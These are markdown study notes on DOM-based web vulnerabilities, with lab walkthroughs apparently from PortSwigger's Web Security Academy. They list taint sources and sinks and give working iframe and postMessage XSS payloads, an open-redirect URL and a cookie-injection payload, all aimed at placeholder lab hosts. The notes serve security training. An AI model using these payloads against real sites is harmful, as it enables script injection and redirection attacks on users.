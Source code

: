 # DOM Based vulnerabilities notes

[Portswigger](https://portswigger.net/web-security/dom-based)

## Methodology

So simple easy start to DOM inspection would be to both manually search for sinks, or to use DOM Invader.

To start DOM Invader load the extension in the burp browser:
![image](https://github.com/user-attachments/assets/68eda86b-2662-4683-a644-8c7a93167357)

You can open DOM Invader in a tab in the developer tools in the browser:
![image](https://github.com/user-attachments/assets/ff1f2f18-fd9d-4b07-b6c1-03c832d5e8e8)

Within here you can copy the canary to inject into parameters you have user input to, see current sinks and sources when your canary has been inputted, as well as other things. We will go over this more in details in the lab walkthroughs.

For the labs specifically we do seem to have a common addEventListener() that has a tain-flow vuln exposed on it. So make sure to also review the source page for possible things that might have sinks in them, see lists below.

### Sources

Common sources to abuse for taint-flow vulns

```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

### Sinks to search for

|DOM-based vulnerability |	Example sink|
|:----|:----|
|DOM XSS 	|document.write()|
|Open redirection 	|window.location|
|Cookie manipulation |	document.cookie|
|JavaScript injection| 	eval()|
|Document-domain manipulation 	|document.domain|
|WebSocket-URL poisoning 	|WebSocket()|
|Link manipulation 	|element.src|
|Web message manipulation |	postMessage()|
|Ajax request-header manipulation |	setRequestHeader()|
|Local file-path manipulation| 	FileReader.readAsText()|
|Client-side SQL injection 	|ExecuteSql()|
|HTML5-storage manipulation |	sessionStorage.setItem()|
|Client-side XPath injection 	|document.evaluate()|
|Client-side JSON injection |	JSON.parse()|
|DOM-data manipulation 	|element.setAttribute()|
|Denial of service 	|RegExp() |

**For open-redirection vulns**

```
location
location.host
location.hostname
location.href
location.pathname
location.search
location.protocol
location.assign()
location.replace()
open()
element.srcdoc
XMLHttpRequest.open()
XMLHttpRequest.send()
jQuery.ajax()
$.ajax()
```

**For cookie**
```
document.cookie
```

**ADDITIONAL**
Further lists exists on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss)

## Labs Walkthrough

### DOM XSS using web messages

- as listed in the Hacktricks list from above, we found the usage of `.innerHTML` on the document.getElementById function:
- ![image](https://github.com/user-attachments/assets/6ba5d62e-99fb-4bb7-b15c-c2e36eebcf90)
- Now we will use the exploit server to craft an iframe that calls the print() function in javascript

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

- store and deliver to victim

### DOM XSS using web messages and a JavaScript URL

- review the site and notice another window.addEventListener function is defined here
- ![image](https://github.com/user-attachments/assets/c595163a-1341-42dd-8809-0013ea8be57a)
- looks like there might be a location.href dom we can abuse
- Now we go to the exploit server to craft an iframe that calls the print() function in javascript

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

- store and devlier to victim

### DOM XSS using web messages and JSON.parse

- review the site and notice another window.addEventListener function is defined here
- ![image](https://github.com/user-attachments/assets/72c0706f-10f9-432b-8e92-e7beaf5c35af)
- Let's break this down
1. a window.addEventListener is being created passing message, and function(e)
2. This is an iframe creation, with the ACMEplayer object pointed to the created iframe with a json blob with an element equaling `iframe`, the try catch is just validating that it is json, if not break out and return
3. a switch case that checks the value and see's what action needs to happen, in this case scrolling into view if `page-load` is the type.
4. checking if `load-channel` is the type sets the iframes src value to the url and loads this url in the iframe
5. checks for `player-height-changed` value and adjusts based on the value

- we will abuse the `load-channel` part of this event listener by crafting a url that is just our xss payload, in the exploit server

```
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

- store and deliver to victim

### DOM-based cookie manipulation

- view a post and inspect the `Back to Blog` section
- ![image](https://github.com/user-attachments/assets/e83fd6c8-94da-4d5b-a983-4a37cc75475d)
- notice this functions values:
- ![image](https://github.com/user-attachments/assets/fb148073-72fa-4d83-8555-fb2362dcfe3f)
- we can abuse the `url` parameter to open redirect to any site we choose, including the exploit server

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

### DOM-based cookie manipulation

- review a product and go back to the homepage, notice that a cookie is set with the url of the last product we were at
- ![image](https://github.com/user-attachments/assets/69f6f810-b1ba-468d-a5c6-c825c70cc906)
- We can also see in the source page that there is an href that must be what the cookie is reading from:
- ![image](https://github.com/user-attachments/assets/79a06497-2a2c-48da-ae31-f599d9eab1e7)
- craft a payload in exploit server to abuse this behavior of last product url being written to the cookie

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

- we can confirm that it does load into the cookie when viewing the exploit ourselves:
- ![image](https://github.com/user-attachments/assets/717b96bb-1abc-4eef-a3fb-680b86ee1dad)
- now store and deliver to victim
